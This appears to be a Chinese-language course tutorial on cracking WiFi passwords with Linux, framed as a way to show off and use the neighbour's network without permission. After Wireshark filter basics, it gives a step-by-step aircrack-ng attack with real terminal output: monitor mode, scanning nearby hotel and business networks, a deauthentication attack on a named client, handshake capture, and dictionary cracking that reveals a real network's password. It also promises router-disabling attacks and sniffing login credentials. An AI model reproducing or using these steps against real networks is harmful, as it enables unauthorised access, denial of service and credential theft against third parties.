



##课程介绍
屌丝逆袭之蹭网利器，在女朋友面前炫耀一下自己的“黑客功底”，在Linux的世界里，其实这都不是什么难事，瘫痪路由器，发起网络攻击，抓包数据分析，加入“网络圣战”，进入Linux世界，轻松让你成为“高逼格”的IT达人

##课程知识点
1、WIFI密码破解原理剖析

2、网络数据抓包与分析

3、路由器攻击，瘫痪网络

4、随心所欲，开发定制密码字典

5、枚举字典，暴力破解

6、轻松使用”隔壁老王“的wifi

##课程详情
Wireshark是一个非常好用的抓包工具，当我们遇到一些和网络相关的问题时，可以通过这个工具进行分析，不过要说明的是，这只是一个工具，用法非常灵活的。

Wireshark下载地址

	https://www.wireshark.org/download.html
	
##选取网卡
wireshark左上角，查找list那个按钮

##设置抓包过滤器(CaptureFilters)
	语法:Protocaol $ Direction $ Host(s) $ Value $ Logical Operations $ Other expression
	例子: ip src host 192.168.1.100 tcp dst port 8080
	例子：ip src host 192.168.1.100
	
###Protocol（协议）：
可能得值：ether,fddi,ip,arp,rarp,decnet,lat,sca,moprc,mopdl,tcp adn udp

如果没有特别指明是什么协议，则默认使用所有支持的协议。

###Direction（方向）：
可能的值：src,dst,src and dst,src or dst

如果没有特别指明来源或目的地，则默认使用”src or dst“作为关键字。例如，"host 10.2.2.2"与"src or dst host 10.2.2.2"是一样的。

###Host(s):
可能的值：net,port,host,portrange.

如果没有指定此值，则默认使用”host“关键字。例如，"src 10.1.1.1"与"src host 10.1.1.1"相同

###Logical Operations(逻辑运算)：
可能得值：not,and,or

否("not")具有最高的优先级。或("or")和与("and")具有相同的优先级，运算时从左至右进行。例如：

	"not tcp port 3128 and tcp port 23"与"(not tcp port 3128) and tcp port 23"相同
	"not tcp port 3128 and tcp port 23"与"not (tcp port 3128) and tcp port 23)"不同
	
如果过滤器的语法是正确的，表达式的背景呈绿色。如果呈红色，说明表达式有误。

##设置显示过滤器(DisplayFilters)
	
	语法：Protocol.String1.String2 $ Comparison operator $ Value $ Logical Operations $ Other expression
	例子：ip.src=192.168.1.100	(显示来源为192.168.1.100的包)
		tcp.port==80
	例子：http.request.method==POST(显示http请求方法是post)
		
##网络封包分析
	登录获取某网站的表单，分析其账号和密码
	
##WIFI密码破解原理剖析
	1、把我的网卡变成监听模式(捕获无线信号)
	2、扫描周围无线WIFI
	3、专门监听老王的WIFI（老王和路由器的数据传输）
	4、发起攻击，模拟WIFI路由器单插，向老王发出断开连接请求
	5、老王的电脑断开连接，自动重新建立连接，咱们捕获4次握手包
	6、4次握手包里包含有经过加密的密码，SHA1 MD5
	7、暴力破解，穷举字典破解
	8、轻松加愉快上老王家的网

##Aircrack-ng
###下载
	http://www.aircrack-ng.org/
	http://www.aircrack-ng.org/downloads.html
	http://download.aircrack-ng.org/aircrack-ng-1.2-rc4.tar.gz
	
###安装
	sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev
	tar zxvf aircrack-ng-1.2-rc2.tar.gz
	cd aircrack-ng-1.2-rc2
	make
	sudo make install
	
安装步骤：
		
	ljaer@ubuntu:~$ mkdir mingmingMM
	ljaer@ubuntu:~$ cd mingmingMM/
	ljaer@ubuntu:~/mingmingMM$ ls
	ljaer@ubuntu:~/mingmingMM$ wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ ls
	aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ tar zxvf aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ ls
	aircrack-ng-1.2-rc4  aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ cd aircrack-ng-1.2-rc4/
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ ls
	apparmor  ChangeLog   INSTALLING  LICENSE.OpenSSL  packages  scripts  VERSION
	AUTHORS   common.mak  lib         Makefile         patches   src
	autocfg   evalrev     LICENSE     manpages         README    test
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ make
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ sudo make install
	ljaer@ubuntu:~/mingmingMM/aircrack-ng-1.2-rc4$ cd ..
	ljaer@ubuntu:~/mingmingMM$ ls
	aircrack-ng-1.2-rc4  aircrack-ng-1.2-rc4.tar.gz
	ljaer@ubuntu:~/mingmingMM$ mkdir crack
	ljaer@ubuntu:~/mingmingMM$ cd crack/
	ljaer@ubuntu:~/mingmingMM/crack$ ls
	ljaer@ubuntu:~/mingmingMM/crack$ pwd
	/home/ljaer/mingmingMM/crack
	
	
##WIFI密码破解
1、查看本机电脑无线网卡
	
	iwconfig或者ifconfig

网卡驱动名字为wlp2s0

    操作如下：
    jaer@jaer:~/mingmigMM/crack$ pwd
    /home/jaer/mingmigMM/crack
    jaer@jaer:~/mingmigMM/crack$ iwconfig
    vmnet1    no wireless extensions.
    vmnet8    no wireless extensions.
    wlp2s0    IEEE 802.11abgn  ESSID:"homeinns"  
          Mode:Managed  Frequency:2.412 GHz  Access Point: 58:69:6C:09:BA:4C   
          Bit Rate=1 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          Link Quality=70/70  Signal level=-25 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:47   Missed beacon:0

    lo        no wireless extensions.

    enp1s0    no wireless extensions.

2、激活网卡到monitor模式，得到监控模式下的设备名为wlan0mon

	sudo airmon-ng start wlan0

    操作如下：开启后wlan名字变为wlp2s0mon
    jaer@jaer:~/mingmigMM/crack$ sudo airmon-ng start wlp2s0
    Found 2 processes that could cause trouble.
    If airodump-ng, aireplay-ng or airtun-ng stops working after
    a short period of time, you may want to run 'airmon-ng check kill'
     PID Name
     3493 avahi-daemon
     3494 avahi-daemon  
     PHY Interface   Driver      Chipset
    phy0    wlp2s0      iwlwifi     Intel Corporation Wireless 3160 (rev 93)
            (mac80211 monitor mode vif enabled for [phy0]wlp2s0 on [phy0]wlp2s0mon)
            (mac80211 station mode vif disabled for [phy0]wlp2s0)

    停止监听模式：
    jaer@jaer:~/mingmigMM/crack$ sudo airmon-ng stop wlp2s0mon
     PHY Interface   Driver      Chipset
    phy0    wlp2s0mon   iwlwifi     Intel Corporation Wireless 3160 (rev 93)
        (mac80211 station mode vif enabled on [phy0]wlp2s0)
        (mac80211 monitor mode vif disabled for [phy0]wlp2s0mon)

3、探查无线网络，选取破解路由器对象

	sudo airodump-ng wlan0mon

    实际操作：
    jaer@jaer:~/mingmigMM/crack$ sudo airodump-ng wlp2s0mon
     BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                   
     C0:F1:D8:F0:0E:13  -77        2        0    0   8  54e. WPA2 CCMP   PSK  China
     00:27:1D:0B:84:66   -1        0        0    0  -1  -1                    <leng
     00:15:6D:AE:67:C6   -1        0       53    8   7  -1   WPA              <leng
     14:75:90:C9:E9:84  -57       19        0    0   6  54e. WPA2 CCMP   PSK  caiwu
     3C:8C:40:FB:D8:90  -47       33       20    0  11  54e. OPN              aWiFi
     58:69:6C:09:BA:4C  -77       38       62    0   1  54e. WPA2 CCMP   PSK  homei
     3C:8C:40:FB:D9:00  -76       20       25    0   1  54e. OPN              aWiFi
     3C:8C:40:FB:D9:E0  -76        0       12    0  11  -1   OPN              <leng
     58:69:6C:09:BB:D4  -76       20        0    0  12  54e. WPA2 CCMP   PSK  homeij
     58:69:6C:09:B9:E0  -77        9        8    0   6  54e. WPA2 CCMP   PSK  homeij
     3C:8C:40:FB:D7:E0  -81       11       39    0   1  54e. OPN              aWiFi 
     6C:E8:73:9A:48:BC  -79       20        5    0   5  54e. WPA2 CCMP   PSK  123   
     3C:8C:40:FB:D5:F0  -79        0       17    0   6  -1   OPN              <leng 
     E4:D3:32:42:E4:A0  -80       16        0    0  11  54e. WPA2 CCMP   PSK  fushe 
     D4:EE:07:04:68:80  -80       19        0    0   1  54e  OPN              ��.�. 
     1C:60:DE:7D:66:94  -83       26        3    0   2  54e  WPA2 CCMP   PSK  �.���
     00:15:6D:AE:6A:00  -80       23      197    0   5  54e. WPA2 CCMP   PSK  fushe
     3C:8C:40:FB:D1:70  -82        0       15    0  11  -1   OPN              <leng
4、设置监控频道，抓取被选定路由器的数据包，始终运行
	
	sudo airodump-ng --ivs -w linuxcpp -c 6 wlan0mon
	捕获的包存入linuxcp-0x.ivs文件，x为序号

    实际操作：
    jaer@jaer:~/mingmigMM/crack$ sudo airodump-ng --ivs -w linuxcpp -c 1 wlp2s0mon    

5、新开终端，发起Deauth攻击，破事客户端重新链接路由器

    sudo aireplay-ng -0 1 -a 路由器MAC -h 合法链接客户端MAC wlan0mon

De-Authentication DoS 去验证洪水攻击，国际上称之为De-authentication Flood Attack，全称即去身份验证洪水攻击或去验证阻断洪水攻击，通常被简称为Deauth攻击，是无线网络拒绝服务攻击的一种形式，它旨在通过欺骗从AP到客户端单播地址的去身份验证帧来将客户端转为未关联的/未认证的状态。

如果Deauth攻击成功，airodump-ng捕获handshake,此时可以ctrl+c终止airodump-ng抓包

    还是来到那个目录下
    jaer@jaer:~$ cd /home/jaer/mingmigMM/crack/
    jaer@jaer:~/mingmigMM/crack$ pwd
    /home/jaer/mingmigMM/crack
    客户端mac地址：98:FA:E3:3F:9B:69，服务器mac地址：58:69:6C:09:BA:4C
    jaer@jaer:~/mingmigMM/crack$ sudo aireplay-ng -0 1 -a 58:69:6C:09:BA:4C -h 98:FA:E3:3F:9B:69 wlp2s0mon
    sudo aireplay-ng -0 1 -a D4:EE:07:04:68:80 -h A4:3D:78:7C:E8:E2 wlp2s0mon
     14:75:90:C9:E9:84
    在另外一个终端捕获到四次握手包handshake,存放在linuxcpp-**.ivs里面
     CH  1 ][ Elapsed: 3 mins ][ 2016-09-17 06:22 ][ WPA handshake: 58:69:6C:09:BA:4C                               
                                                                                                                    
     BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                    
     58:69:6C:09:BA:4C  -24   0      735     1185    0   1  54e. WPA2 CCMP   PSK  homeinns                          
     3C:8C:40:FB:D9:00  -58   0      125     3085    0   1  54e. OPN              aWiFi                             
     3C:8C:40:FB:D7:E0  -71   0        2     1033    0   1  54e. OPN              aWiFi                             
     48:EE:0C:68:CB:60  -80   0        1     1074    0   1  54e  WPA2 CCMP   PSK  wina                              
                                                                                                                    
     BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                      
                                                                                                                    
     (not associated)   20:5D:47:B7:4E:B1  -72    0 - 1      0        3                                              
     58:69:6C:09:BA:4C  98:FA:E3:3F:9B:69  -28    0 -24      0      285                                              
     58:69:6C:09:BA:4C  A4:F1:E8:03:DF:18  -69    1e-24      0      152  homeinns                                    
     58:69:6C:09:BA:4C  F4:5C:89:BE:75:35  -28    0 -24e     0      259                                              
     48:EE:0C:68:CB:60  48:D2:24:B6:60:64   -1    0e- 0      0     1074   

6、aircrack-ng穷举字典，暴力破解

    sudo aircrack-ng -w dic linuxcpp-01.ivs

破解成功与否取决于字典是否涵盖全面，破解速度取决于硬件计算性能和字典优化

dict文件内容

    123
    12
    1
    2
    3
    4
    5123121
    1231231
    4008203333123
    12
    1
    2
    3
    4
    5123121
    1231231
    4008203333

其中4008203333是wifi密码

    jaer@jaer:~/mingmigMM/crack$ aircrack-ng -w dict linuxcpp-03.ivs 
    Opening linuxcpp-03.ivs
    Read 20 packets.
       #  BSSID              ESSID                     Encryption
       1  58:69:6C:09:BA:4C  homeinns                  WPA (1 handshake)
       2  3C:8C:40:FB:D7:E0  aWiFi                     Unknown
       3  3C:8C:40:FB:D9:00  aWiFi                     Unknown
       4  D4:EE:07:04:68:80  富圣豪宴会免费wifi  Unknown
       5  48:EE:0C:68:CB:60  wina                      Unknown
       6  3C:8C:40:FB:D9:E0  aWiFi                     Unknown
       7  58:69:6C:09:BB:D4  homeinns                  Unknown
       8  E4:D3:32:42:E4:A0  fushenghaojiudian         Unknown
       9  3C:8C:40:FB:D8:90  aWiFi                     Unknown
      10  1C:60:DE:7D:66:94  斯维美容美发养生会所  Unknown
      11  14:75:90:C9:E9:84  caiwu                     Unknown
      12  58:69:6C:09:B9:E0  homeinns                  Unknown
      13  00:15:6D:AE:6A:00  fushenghaojiudian         Unknown
      14  BC:46:99:01:FB:3A  TP-LINK_FB3A              Unknown
      15  3C:8C:40:FB:D0:10  aWiFi                     Unknown
      16  00:15:6D:AE:6A:5E  fushenghaojiudian         Unknown
      17  00:15:6D:AE:53:98  fushenghaojiudian         Unknown
    Index number of target network ? 1
    Opening linuxcpp-03.ivs
    Reading packets, please wait...
                                     Aircrack-ng 1.2 rc4
          [00:00:00] 1/1 keys tested (218.15 k/s) 
          Time left: 0 seconds                                     100.00%
                              KEY FOUND! [ 4008203333 ]
          Master Key     : 71 E2 7E 6C F5 83 A9 86 D4 A8 A2 29 3C D8 65 6C 
                           50 70 1D 5E A5 A8 5B A4 6C FD 04 1C E6 C8 1D A7 
          Transient Key  : 22 59 10 B3 3C E7 EC 86 5E F4 AB 80 98 60 6A C5 
                           D0 26 43 50 1B B7 CA 5A 9E 9B 86 F7 3F 62 B2 7D 
                           82 59 4C B8 79 5A 75 5F BC 0D 5E 78 3C 37 0E B1 
                           06 2F 38 09 66 B7 0F BC D7 C7 F3 4E 49 87 7C A2 
          EAPOL HMAC     : 6F C3 CC B5 25 5F E4 CC F9 AB AD 92 CA 03 A9 ED 

发现密码 KEY FOUND! [ 4008203333 ]
